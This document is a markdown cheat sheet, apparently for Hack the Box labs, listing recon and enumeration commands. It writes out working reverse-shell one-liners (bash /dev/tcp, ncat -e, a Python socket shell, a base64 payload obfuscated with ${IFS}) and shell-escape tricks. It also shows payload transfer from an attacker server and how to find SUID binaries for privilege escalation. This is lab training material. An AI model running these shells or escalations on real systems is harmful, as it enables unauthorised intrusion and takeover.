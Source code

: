 ## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
**Nmap**<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>
**masscan probe to establish the open ports in the host.**<br>
•	masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
•	nmap -sV -v -O -sS -T5 {target}<br>
**Sudoing User...**<br>

 sudo -l	--> List available commands.<br>
 sudo command --> 	Run command as root.<br>
 sudo -u root command	 --> Run command as root.<br>
 sudo -u user command	-->  Run command as user.<br>

**Subfinder(only subfinder can run large wordlist)**<br>
•	./subfinder -d freelancer.com -o output.txt<br>
**Eyewitness**<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
**installing tab completion**<br>
•	apt-get install bash-completion<br>
**Untar**<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

**list all file in a directory with permission**<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
**list all files with hidden with permission**<br>
ls -al<br>
**show permission of directory or file**<br>
ls -ld<br>
**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>

**Gobuster Dir enumeration**<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

**REVERSE SHELL**<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999<br>
Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>
Note:In the above payload python will run and creating bash shell.But while sometimes trying to put commands it throws error like you have to run through terminal.For that Run Below command to work properly<br>
<br>
python3 -c 'import pty; pty.spawn("/bin/sh")'<br>
<br>
 Related Shell Escape Sequences...
 
    python-->python3 -c 'import pty; pty.spawn("/bin/sh")'
    vi-->   :!bash
    vi-->   :set shell=/bin/bash:shell
    awk-->  awk 'BEGIN {system("/bin/bash")}'
    find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl--> perl -e 'exec "/bin/bash";'
**File transfer during REVERSE SHELL**<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>




**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
    
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>
**Searching for root permission file and Binaries or SUID binaries***<br>
![Image description](https://2.bp.blogspot.com/-V6G2dcR6rew/WvxyU3zB5NI/AAAAAAAAW3o/es8P06opgNwUg8gUPjzcLO29dgVYBOOpQCLcBGAs/s1600/0.2.png)<br>
when special permission is given to each user it becomes SUID, SGID, and sticky bits. When extra bit “4” is set to user(Owner) it becomes SUID (Set user ID) and when bit “2” is set to group it becomes SGID (Set Group ID) and  if other users are allowed to create or delete any file inside a directory then sticky bits “1” is set to that directory.<br>
What is SUID Permission?

SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 

**HOW SUID helps in privilege escalation?**<br>
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/ <br>
https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-linux-privesc-playground/<br>
  **GTFOBins**<br>
https://gtfobins.github.io/<br>

**Getting files and binaries with root permissions**<br>
find / -perm -u=s -type f 2>/dev/null<br>
find / -perm /4000 2>/dev/null <br>
